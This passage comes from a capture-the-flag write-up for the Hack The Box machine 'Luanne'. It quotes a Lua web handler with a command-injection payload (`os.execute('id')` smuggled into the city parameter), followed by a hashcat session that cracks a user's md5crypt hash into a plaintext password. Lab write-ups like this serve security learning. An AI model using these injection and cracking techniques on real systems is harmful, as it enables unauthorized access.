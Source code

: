 ```lua
        httpd.print('{"code": 200, "message": "No city specified. Use \'city=list\' to list available cities."}')
    end
end

httpd.register_handler('forecast', forecast)
```

Nothing useful here? There did seem to be a backdoor potentially written in, though it was commented out `-- city=London') os.execute('id') --`. I think this is where I injected my original access

```text
┌──(zweilos㉿kali)-[~/htb/luanne]
└─$ echo 'webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.' >> hash                                130 ⨯

┌──(zweilos㉿kali)-[~/htb/luanne]
└─$ hashcat -O -D1,2 -a0 -m500 hash /usr/share/wordlists/rockyou.txt --username
hashcat (v6.1.1) starting...

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

INFO: Removed 1 hash found in potfile.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.:littlebear    

Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: hash
Time.Started.....: Sat Mar 27 23:58:52 2021 (1 sec)
Time.Estimated...: Sat Mar 27 23:58:53 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    41505 H/s (11.99ms) @ Accel:512 Loops:250 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests, 2/2 (100.00%) Salts
Progress.........: 26636/28688770 (0.09%)
Rejected.........: 12/26636 (0.05%)
Restore.Point....: 12293/14344385 (0.09%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidates.#1....: gamboa -> billybob1

Started: Sat Mar 27 23:58:51 2021
Stopped: Sat Mar 27 23:58:54 2021
```

